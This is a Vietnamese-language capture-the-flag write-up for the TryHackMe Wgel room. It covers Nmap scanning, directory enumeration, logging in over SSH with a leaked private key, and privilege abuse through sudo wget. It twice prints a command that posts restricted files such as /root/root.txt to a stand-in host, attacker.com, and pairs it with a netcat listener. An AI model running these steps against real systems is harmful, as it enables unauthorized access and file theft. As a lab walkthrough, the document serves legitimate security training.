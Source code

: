 TryHackMe - Wgel CTF Writeup
Tools used:
Nmap
1.Dirsearch
2.Gobuster
3.GTFOBins
Scanning and Enumeration  

**LƯU Ý:** Địa chỉ IP của máy sẽ được biểu diễn là `10.10.x.x` vì TryHackMe cấp IP khác nhau cho từng người dùng.  

Giả sử bạn đã có IP của máy, hãy chạy **4 lệnh Nmap** để quét và thu thập thông tin hệ thống.  

Half TCP Scan (Quét TCP một nửa bắt tay)
```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```
Quét phiên bản / Banner Grabbing  
Sử dụng Nmap để lấy thông tin phiên bản dịch vụ chạy trên các cổng.  
```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```
Aggressive Scan  
Thực hiện quét nâng cao (Aggressive Scan) để vừa thu thập service, version vừa chạy các script cơ bản.  
```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```
Nmap NSE Vulnerability Scan  
Dùng Nmap với các script NSE để phát hiện lỗ hổng của dịch vụ trên port. 
```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```
Điểm quan trọng ở đây chính là **Half TCP Scan** và **NSE Scan**:  
- Với **Half TCP Scan**, bạn sẽ biết được bao nhiêu port đang mở.  
- Với **NSE Scan**, bạn sẽ có được một “phác thảo” sơ bộ về những lỗ hổng mà port/dịch vụ đó có thể tồn tại.

Enumeration Website  

Từ đây, bên ngoài hệ thống không còn gì nhiều để khai thác.  
Chuyển trọng tâm sang website chạy trên **port 80**.  


Khi truy cập website, bạn sẽ thấy trang mặc định Apache2 Ubuntu.  
Hãy bỏ qua trang đó và bắt đầu enumerate website ngay.  


Bạn có thể dùng **Dirsearch** hoặc **Gobuster** (mình hay dùng Gobuster).  

Dirsearch
```
dirsearch -u http://10.10.x.x/ -t 120
```
Gobuster
```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```
Lý do mình để danh sách extension trong file riêng là để chắc chắn không bỏ sót loại file nào.

Sau khi enumerate, thư mục duy nhất bạn thấy được truy cập là: http://10.10.x.x/sitemap/
Truy cập vào đó, bạn sẽ thấy một trang web.  

Quay lại bước đầu tiên, bạn nên tiếp tục enumerate website bằng **Dirsearch** hoặc **Gobuster** để tìm các file và thư mục có thể truy cập.  
Trong lúc chạy Dirsearch hoặc Gobuster, hãy kiểm tra **source code HTML** của `http://10.10.x.x/sitemap/` vì trong đó có chứa **một username**.  
Sau khi hoàn thành quét với Dirsearch hoặc Gobuster, bạn sẽ tìm thấy thư mục: /.ssh/
Lưu file trong đó và dùng nó để đăng nhập SSH.  


SSH login và Leo thang đặc quyền  

Sau khi đăng nhập thành công qua SSH, hãy lấy ngay **user flag** (thường nằm ở thư mục `/Documents/`).  

Privilege Escalation 
Nếu bạn chạy lệnh: 
```
sudo -l
```
Bạn sẽ thấy rằng user được phép chạy wget với đặc quyền cao.
Khai thác (Privilege Escalation)

Để khai thác, chạy lệnh sau:
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
--post-file : tuỳ chọn này sẽ gửi toàn bộ nội dung file (ví dụ: /root/root.txt) đến địa chỉ IP + port bạn chỉ định thông qua HTTP POST request.

LFILE : thay bằng đường dẫn của file mà bạn muốn đọc.

URL : thay bằng địa chỉ IP và port của máy tấn công (nơi bạn mở listener).


Trên máy tấn công (Kali)
Mở listener để chờ dữ liệu:
```
nc -lvnp 9999
```
```
ncat -lvnp 9999
```
Sau khi thiết lập listener, nhấn Enter và bạn sẽ thấy **root flag** được gửi về máy tấn công.  

Kết luận  

Nếu có điều gì chúng ta học được hôm nay, thì đó là:  
Ta có thể đọc và gửi nội dung của một file về máy của mình thông qua **HTTP POST request** bằng cách sử dụng lệnh:  
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
Chúng ta không thực sự leo thang đặc quyền bằng `wget`, tuy nhiên chúng ta đã **lợi dụng/abuse quyền SUID** để đọc được nội dung của các file bị hạn chế.  
